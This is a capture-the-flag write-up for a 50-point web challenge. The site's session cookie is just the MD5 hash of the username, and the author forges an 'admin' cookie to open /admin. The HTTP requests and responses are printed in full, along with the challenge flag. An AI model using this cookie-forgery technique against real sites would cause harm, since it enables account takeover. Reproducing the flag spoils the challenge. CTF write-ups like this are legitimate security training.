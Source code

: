 ### Solved by Swappage

This was a 50 points challenge which was pretty simple, all we had to do was to log in as admin and retrieve the flag from the /admin page

upon registration we are asked to provide a username and a password

and we receive a cookie:


    HTTP/1.1 302 Found
    Location: /welcome
    Content-Type: text/html; charset=utf-8
    Date: Fri, 29 Apr 2016 17:32:55 GMT
    Server: Google Frontend
    Content-Length: 0
    Set-Cookie: md5-hash=3590cb8af0bbb9e78c343b52b93773c9; Path=/
    Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    Connection: close

the cookie is the md5 of the username, so all we have to do is replace the cookie with the md5 hash of the string *admin* and visit /admin to get the flag.

    GET /admin HTTP/1.1
    Host: ernst-echidna.ctfcompetition.com
    User-Agent: Developer_JANEBO
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Cookie: md5-hash=21232f297a57a5a743894a0e4a801fc3
    Connection: close

    HTTP/1.1 200 OK
    Content-Type: text/html; charset=utf-8
    Vary: Accept-Encoding
    Date: Fri, 29 Apr 2016 17:36:27 GMT
    Server: Google Frontend
    Cache-Control: private
    Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    Connection: close
    Content-Length: 378
```html
    <html>
      <head>
       <meta charset="utf-8">
       <title>gloomy-scorpion</title>
       <link rel="stylesheet" href="/static/bootstrap.min.css" media="screen">
      </head>
      <body>
        <div class="container">
          <h1>The authentication server says..</h1>
          <p>Congratulations, your token is &#39;CTF{renaming-a-bunch-of-levels-sure-is-annoying}&#39;</p>
        </div>
      </body>
    </html>
```

the flag is: *CTF{renaming-a-bunch-of-levels-sure-is-annoying}*
